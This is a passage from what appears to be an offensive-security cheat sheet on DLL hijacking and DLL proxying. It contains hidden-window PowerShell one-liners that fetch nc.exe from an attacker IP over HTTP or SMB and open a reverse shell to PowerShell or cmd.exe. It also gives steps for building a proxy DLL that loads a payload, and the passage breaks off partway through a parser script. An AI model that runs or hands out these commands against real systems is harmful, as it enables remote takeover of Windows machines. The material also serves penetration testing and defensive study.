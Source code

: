 To create a Dynamic-Link Library (DLL), you must create one or more source code files, and possibly a linker file for exporting the functions. To allow applications that use your DLL to use load-time dynamic linking, you must also create an import library using **-Wl,--out-implib**

*Note that it requires the following package: mingw-w64*

We can either:

- Download nc.exe through HTTP by hosting a Web Server

```bash
# Windows 7 and Windows Server 2008 R2 + newer
powershell -windowstyle hidden Invoke-WebRequest -uri http://OUR_IP/nc.exe -outfile nc.exe & nc.exe OUR_IP OUR_NC_PORT -e powershell.exe
# Older
powershell -windowstyle hidden Invoke-WebRequest -uri http://OUR_IP/nc.exe -outfile nc.exe & nc.exe OUR_IP OUR_NC_PORT -e cmd.exe
```

- Create a SMB server using python-impacket/smbserver.py

```bash
# Create a SMB server using impacket's smbserver.py
python3 /usr/share/python-impacket/smbserver.py temporary /tmp/ -smb2support
```

```powershell
# Windows 7 and Windows Server 2008 R2 + newer
powershell -windowstyle hidden copy \\\\\\\OUR_IP\\\temporary\\\\nc.exe & nc.exe OUR_IP OUR_NC_PORT -e powershell.exe
# Older
powershell -windowstyle hidden copy \\\\\\\OUR_IP\\\temporary\\\\nc.exe & nc.exe OUR_IP OUR_NC_PORT -e cmd.exe
```

##### DLL Proxying

Application loads DLLs because it needs to use one or more functions it exports.
If those exports are not there, the DLL won't be properly loaded and our payload will never be executed.

DLL Proxying is the technique where we export the required functions without actually implement them.

DLL Proxying is achieved through a DLL Wrapper. The idea is very simple and quite self-explanatory at this point.
A DLL Wrapper consists in redirecting all the functions to the original DLL using forwarders.

1) List the DLLs loaded by the target application on startup and choose one to proxy.
2) Use DLL Export Viewer to list the functions exported by the DLL. *(View > HTML Report - All Functions)*
3) Parse the result and generate the export directives for Visual Studio. *(Python script below)*
4) Add your own code to the DLL Wrapper. *(C code below)*

```python
"""
The report generated by DLL Exported Viewer is not properly formatted so it can't be analyzed using a parser unfortunately.
"""
from __future__ import print_function
import argparse

def main():
    parser = argparse.ArgumentParser(description="DLL Export Viewer - Report Parser")
    parser.add_argument("report", help="the HTML report generated by DLL Export Viewer")
    args = parser.parse_args()
    report = args.report

    try:
        f = open(report)
```